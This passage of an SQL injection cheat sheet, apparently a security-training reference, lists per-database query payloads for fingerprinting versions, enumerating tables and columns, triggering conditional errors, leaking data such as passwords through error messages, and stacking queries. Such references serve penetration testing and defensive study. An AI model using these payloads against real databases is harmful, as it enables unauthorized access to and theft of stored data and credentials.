 <table><tbody><tr><th>Oracle</th><td><code>SELECT banner FROM v$version<br>SELECT version FROM v$instance<br></code></td></tr><tr><th>Microsoft</th><td><code>SELECT @@version</code></td></tr><tr><th>PostgreSQL</th><td><code>SELECT version()</code></td></tr><tr><th>MySQL</th><td><code>SELECT @@version</code></td></tr></tbody></table>

## Database contents

You can list the tables that exist in the database, and the columns that those tables contain.

<table><tbody><tr><th>Oracle</th><td><code>SELECT * FROM all_tables<br>SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'</code></td></tr><tr><th>Microsoft</th><td><code>SELECT * FROM information_schema.tables<br>SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'<br></code></td></tr><tr><th>PostgreSQL</th><td><code>SELECT * FROM information_schema.tables<br>SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'<br></code></td></tr><tr><th>MySQL</th><td><code>SELECT * FROM information_schema.tables<br>SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'<br></code></td></tr></tbody></table>

## Conditional errors

You can test a single boolean condition and trigger a database error if the condition is true.

<table><tbody><tr><th>Oracle</th><td><code>SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual</code></td></tr><tr><th>Microsoft</th><td><code>SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END</code></td></tr><tr><th>PostgreSQL</th><td><code>1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)</code></td></tr><tr><th>MySQL</th><td><code>SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')</code></td></tr></tbody></table>

You can potentially elicit error messages that leak sensitive data returned by your malicious query.

<table><tbody><tr><th>Microsoft</th><td><code>SELECT 'foo' WHERE 1 = (SELECT 'secret') &gt; Conversion failed when converting the varchar value 'secret' to data type int.</code></td></tr><tr><th>PostgreSQL</th><td><code>SELECT CAST((SELECT password FROM users LIMIT 1) AS int) &gt; invalid input syntax for integer: "secret"</code></td></tr><tr><th>MySQL</th><td><code>SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret'))) &gt; XPATH syntax error: '\secret'</code></td></tr></tbody></table>

## Batched (or stacked) queries

You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

<table><tbody><tr><th>Oracle</th><td><code>Does not support batched queries.</code></td></tr><tr><th>Microsoft</th><td><code>QUERY-1-HERE; QUERY-2-HERE<br>QUERY-1-HERE QUERY-2-HERE</code></td></tr><tr><th>PostgreSQL</th><td><code>QUERY-1-HERE; QUERY-2-HERE</code></td></tr><tr><th>MySQL</th><td><code>QUERY-1-HERE; QUERY-2-HERE</code></td></tr></tbody></table>

#### Note

With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

